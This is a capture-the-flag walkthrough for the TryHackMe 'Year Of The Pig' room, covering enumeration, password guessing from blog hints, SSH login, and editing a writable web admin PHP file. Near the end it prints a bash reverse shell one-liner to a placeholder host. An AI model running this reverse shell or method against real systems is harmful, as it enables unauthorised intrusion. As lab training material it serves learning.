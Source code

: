 # Capture The FLag
[THM] Year Of The Pig Walkthrough

Start with a simple nmap scan:

sudo nmap -sV -A $IP

![Screenshot 2020-10-12 001215](https://user-images.githubusercontent.com/72692401/95679646-fb9fb780-0c1f-11eb-9c54-bb4e65bbe84f.png)


See that there are two opened ports: 
- http:80
- ssh:22

Enumerate website, it is about Marco's blog, so marco could possibly a username that we should keep in min. At the same time, I run gobuster against the website to find hidden directories if exist. 

![homepage](https://user-images.githubusercontent.com/72692401/95679871-571e7500-0c21-11eb-98e5-cf590d279e00.png)

O GET FLAG1.TXT

Recall gobuster, found that there are some other hidden directories but we are interested in the first one (But I think we shouldn't ignore the rest when enumerating, we are better to check all of them).

![gobuster](https://user-images.githubusercontent.com/72692401/95679743-9c8e7280-0c20-11eb-9813-eab78537d097.png)

Let's visit that directory. Hmm, it looks like we need to find credentials to login. I try to login with marco:marco and failed. However, the website returns us a password hint.

![login](https://user-images.githubusercontent.com/72692401/95680061-82559400-0c22-11eb-8951-143d59d87204.png)

Do you remember marco blog page? He tells us a lot about his hobby which is all about planes and his favorite planes. Therefore, we can list them into the "a memorable word" referred to the password hint.

- A possible memorable word: marco, plane, planes, savoia, macchi, flying.

The password hint also mentioned about there are 2 numbers and a special character at the end of it. Until now, I think that I should try creating a simple python script to bruteforce login credentials. (I had included the script in github page site as well, for saving your time, I had removed some invalid combinations) (I'm really sorry because the script is not well-organized and is bad).

![login](https://user-images.githubusercontent.com/72692401/95680440-7f0fd780-0c25-11eb-9eaf-1225623b50f7.png)

After successfully login, I immediately click onto "COMMANDS" page without any thinking and checking other pages !!!. 

I try different commands and also try escaping command filtering but it keeps returning "Invalid Command!". This could be a trap.

However, you remember that we have another port is opening, which is 22:ssh, I successfully login with the credentials that we found previously and read "flag1.txt"

![login](https://user-images.githubusercontent.com/72692401/95681024-525dbf00-0c29-11eb-8ccf-6f4390291964.png)

o GET FLAG2.TXT

Listing home directory, there is another user is curtis, maybe I have to find a way to compromise this user.
I tried to enumerate more about the current user and found that he belongs to "web-developers" group. The ability of this group is reading and writing files in "/var/www/html/admin/*". (linpeas is a very outstanding tool for enumerating linux.) (https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

In "/var/www/", I see a file called admin.db and I also realize that website using "sqlite3" to access to that database, which could possibly contain curtis's credentials.

Running "sqlite3 admin.db" returns "a permission denied" because the file is only readable and writable by "www-data". The attack vector is very straightfoward, we need to modify "commands.php" located in "/var/www/html/admin/commands.php" and get a reverse shell as "www-data".

All we need to do is changing line 52 as followed, we can run any commands that we want to.

![invalid](https://user-images.githubusercontent.com/72692401/95681747-52f85480-0c2d-11eb-8ab2-ca7410a68810.png)

Comeback to admin site -> commands -> running: bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1' and establish nc listening, we should a reverse shell as "www-data"!


















